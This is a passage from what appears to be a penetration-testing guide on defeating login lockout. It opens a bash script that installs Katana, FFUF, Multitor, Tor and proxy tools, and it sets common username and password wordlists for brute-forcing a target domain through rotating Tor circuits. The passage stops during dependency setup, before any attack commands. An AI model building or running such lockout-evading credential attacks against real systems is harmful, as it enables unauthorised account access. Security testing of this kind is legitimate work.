 ### Lockout Mechanism <a href="#lockout-mechanism" id="lockout-mechanism"></a>

#### [Katana ](https://github.com/projectdiscovery/katana)& [Multitor ](https://github.com/trimstray/multitor)& [FFUF](https://github.com/ffuf/ffuf)

{% hint style="info" %}
Create Script
{% endhint %}

```bash
sudo nano multitor-bruteforce.sh
```

```bash
#!/bin/bash

# Config & Colors
RED='\e[1;31m'; GREEN='\e[1;32m'; YELLOW='\e[1;33m'; CYAN='\e[1;36m'; RESET='\e[0m'
color_print() { printf "${!1}%b${RESET}\n" "$2"; }

# Root Check
[[ "$(id -u)" -ne 0 ]] && { color_print RED "[X] Please run as ROOT."; exit 1; }

# Input Check
if [ $# -lt 1 ]; then
    echo "Usage: $0 <domain.com>"
    exit 1
fi

URL="$1"
USERLIST="/usr/share/seclists/Usernames/top-usernames-shortlist.txt"
PASSLIST="/usr/share/seclists/Passwords/Common-Credentials/10k-most-common.txt"
DEPS="git seclists tor torsocks obfs4proxy npm proxychains nodejs dnsutils haproxy privoxy golang-go ffuf"

# Install Katana
if ! command -v katana &>/dev/null; then
    color_print GREEN "[*] Installing katana ..."
    go install github.com/projectdiscovery/katana/cmd/katana@latest;sudo ln -fs ~/go/bin/katana /usr/bin/katana
fi

# Install Packages
for pkg in $DEPS; do
    if ! dpkg -s "$pkg" &>/dev/null; then
        color_print YELLOW "[!] Installing $pkg..."
        apt install -y "$pkg"
    fi
done

# install polipo
if ! command -v "polipo" >/dev/null 2>&1; then
    wget http://archive.ubuntu.com/ubuntu/pool/universe/p/polipo/polipo_1.1.1-8_amd64.deb -O /tmp/polipo_amd64.deb
    chmod +x /tmp/polipo_amd64.deb
    dpkg -i /tmp/polipo_amd64.deb
    rm -f /tmp/polipo_amd64.deb
fi

# Install Node.js packages
if ! command -v multitor &>/dev/null; then
    color_print GREEN "[*] Installing http-proxy-to-socks..."
    npm install -g multitor http-proxy-to-socks
```